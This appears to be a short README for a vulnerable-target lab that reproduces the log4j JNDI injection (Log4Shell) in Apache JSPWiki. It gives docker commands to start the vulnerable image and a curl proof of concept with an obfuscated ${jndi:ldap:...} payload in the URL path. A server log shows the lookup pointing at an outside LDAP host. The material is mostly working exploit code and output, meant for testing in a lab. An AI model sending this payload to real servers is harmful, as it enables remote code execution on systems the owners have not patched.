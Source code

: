 # Apache JSPWiki log4j RCE

## vulnerable app

```
docker pull vultarget/jspwiki_log4j_rce:2.11.0

docker run -d -p 8080:8080 --name jspwiki vultarget/jspwiki_log4j_rce:2.11.0
```

## Poc

```
curl -vv http://xxxxxxxx:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/jspwiki_test.yyyyyyy%7D/
```

Log

```
[INFO ] 2021-12-14 11:21:15.519 [http-nio-8080-exec-3] o.a.w.WikiServlet - Request for page: ${jndi:ldap:${::-/}/10.0.0.6:1270/abc}/
```

I've tested it

![](1.png)
